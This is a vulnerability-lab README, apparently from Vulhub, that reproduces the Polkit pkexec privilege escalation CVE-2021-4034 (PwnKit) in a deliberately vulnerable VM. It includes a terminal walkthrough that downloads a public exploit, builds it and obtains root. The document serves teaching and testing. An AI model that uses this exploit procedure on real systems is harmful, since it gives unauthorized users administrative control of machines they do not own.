

# Polkit's `pkexec` Local Privilege Escalation Vulnerability (CVE-2021-4034)

[中文版本(Chinese version)](README.zh-cn.md)

Polkit (formerly PolicyKit) is a component for controlling system-wide privileges in Unix-like operating systems. The pkexec application is a setuid tool that provided by Polkit, it is designed to allow unprivileged users to run commands as privileged users according predefined policies.

The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation giving unprivileged users administrative rights on the target machine.

References:

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034

## Vulnerability Environment

> Note: Linux kernel is fixed the [`argc==0` bug](https://lwn.net/Articles/882799/) in this [commit](https://github.com/torvalds/linux/commit/dcd46d897adb70d63e025f175a00a89797d31a43), so Vulhub uses a Qemu virtual machine emulator to run a vulnerable Ubuntu 20.04, that contains polkit version 0.105. It required your system have at least 2G memory to run the environment.

You can run following command to start the Ubuntu 20.04 with polkit 0.105:

```
docker-compose up -d
```

Because there is a virtual server running inside Docker container, you will need to wait longer until you see the success logs using `docker-compose logs -f` like that:

```
cmd_1  | [  651.040963] cloud-init[1627]: Cloud-init v. 20.1-10-g71af48df-0ubuntu5 running 'modules:final' at Wed, 11 Jan 2023 14:57:10 +0000. Up 209.05 seconds.
cmd_1  | [  651.046024] cloud-init[1627]: ci-info: no authorized SSH keys fingerprints found for user ubuntu.
cmd_1  | [  651.049934] cloud-init[1627]: Cloud-init v. 20.1-10-g71af48df-0ubuntu5 finished at Wed, 11 Jan 2023 15:04:32 +0000. Datasource DataSourceNoCloud [seed=/dev/sdb][dsmode=net].  Up 650.90 seconds
cmd_1  | [  OK  ] Finished Execute cloud user/final scripts.
cmd_1  | [  OK  ] Reached target Cloud-init target.
```


## Exploit

Firstly, use `ubuntu/vulhub` to login the target SSH server:

```
ssh ubuntu@192.168.1.163 -p2222
```

Use [this repository](https://github.com/berdav/CVE-2021-4034) to reproduce the CVE-2021-4034:

```
ubuntu@ubuntu:~$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd)
ubuntu@ubuntu:~$ cd /tmp/
ubuntu@ubuntu:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2023-01-11 15:11:29--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2023-01-11 15:11:30--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: ‘main.tar.gz’

main.tar.gz                                            [ <=>                                                                                                             ]   4.08K  --.-KB/s    in 0.003s

2023-01-11 15:11:30 (1.49 MB/s) - ‘main.tar.gz’ saved [4176]

ubuntu@ubuntu:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
ubuntu@ubuntu:/tmp$ cd CVE-2021-4034-main/
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
ubuntu@ubuntu:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),117(netdev),118(lxd),1000(ubuntu)
```



As you can see, I currently become a root user after exploits.
